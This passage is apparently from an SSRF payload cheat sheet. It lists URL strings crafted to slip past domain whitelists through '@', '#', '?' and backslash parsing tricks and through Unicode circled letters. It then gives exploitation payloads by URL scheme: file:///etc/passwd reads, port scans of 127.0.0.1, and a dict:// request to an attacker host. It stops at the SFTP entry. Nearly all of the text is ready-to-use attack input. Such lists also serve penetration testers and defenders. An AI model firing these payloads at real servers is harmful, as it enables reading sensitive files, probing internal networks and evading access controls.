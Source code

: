[http://whitelist-domain.internal_domain_or_ip/page](.)

[http://whitelist-domain@internal_domain_or_ip/page](.)

[http://internal_domain_or_ip#.whitelist-domain/page](.)

[http://internal_domain_or_ip?.whitelist-domain/page](.)

[http://internal_domain_or_ip\.whitelist-domain/page](.)

[https://ⓦⓦⓦ.ⓗⓐⓗⓦⓤⓛ.ⓒⓞⓜ = www.hahwul.com](.)

[https://whitelist-domain.hahwul.com](.)

[https://whitelist-domain@hahwul.com](.)

[https://www.example.com#whitelist-domain](.)

[https://www.example.com?whitelist-domain](.)

[https://www.example.com\whitelist-domain](.)

[https://www.example.com&whitelist-domain](.)

[http:///////////www.example.com](.)

[http:\\www.example.com](.)

[http:\/\/www.example.com](.)


## SSRF exploitation via URL Scheme

- File
Allows an attacker to fetch the content of a file on the server

[file://path/to/file](.)

[file:///etc/passwd](.)

[file://\/\/etc/passwd](.)

ssrf.php?url=file:///etc/passwd

- HTTP
Allows an attacker to fetch any content from the web, it can also be used to scan ports.

[ssrf.php?url=http://127.0.0.1:22](.)

[ssrf.php?url=http://127.0.0.1:80](.)

[ssrf.php?url=http://127.0.0.1:443](.)

- Dict
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>

ssrf.php?url=dict://attacker:11111/

- SFTP
A network protocol used for secure file transfer over secure shell
